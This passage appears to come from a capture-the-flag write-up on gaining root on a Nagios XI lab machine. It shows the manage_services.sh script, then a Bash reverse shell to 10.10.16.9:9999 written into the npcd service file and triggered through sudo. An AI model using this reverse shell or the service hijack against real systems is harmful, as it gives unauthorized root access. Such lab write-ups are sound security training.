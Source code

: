 I found an interesting bash script ```/usr/local/nagiosxi/scripts/manage_services.sh``` which can start/stop/restart services. so we can basically run services as root using ```manage_service.sh```

```shell
nagios@monitored:/usr/local/nagios/bin$ cat /usr/local/nagiosxi/scripts/manage_services.sh
< cat /usr/local/nagiosxi/scripts/manage_services.sh
#!/bin/bash
#
# Manage Services (start/stop/restart)
# Copyright (c) 2015-2020 Nagios Enterprises, LLC. All rights reserved.
#
# =====================
# Built to allow start/stop/restart of services using the proper method based on
# the actual version of operating system.
#
# Examples:
# ./manage_services.sh start httpd
# ./manage_services.sh restart mysqld
# ./manage_services.sh checkconfig nagios
#

BASEDIR=$(dirname $(readlink -f $0))

# Import xi-sys.cfg config vars
. $BASEDIR/../etc/xi-sys.cfg

# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")
```

Next i took the `npcd` service and deleted it. I created a new `npcd` service with a reverse shell in it.

```shell
nagios@monitored:/usr/local/nagios/bin$ echo '#!/bin/bash' >> npcd
echo '#!/bin/bash' >> npcd
nagios@monitored:/usr/local/nagios/bin$ echo 'bash -i >& /dev/tcp/10.10.16.9/9999 0>&1' >> npcd
< 'bash -i >& /dev/tcp/10.10.16.9/9999 0>&1' >> npcd
```

I then made the file executable.

```shell
nagios@monitored:/usr/local/nagios/bin$ chmod +x npcd
chmod +x npcd
```

Next i turned on my netcat listener, then i stoped and started the npcd service.

```shell
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd 
<local/nagiosxi/scripts/manage_services.sh stop npcd
nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
<ocal/nagiosxi/scripts/manage_services.sh start npcd
```
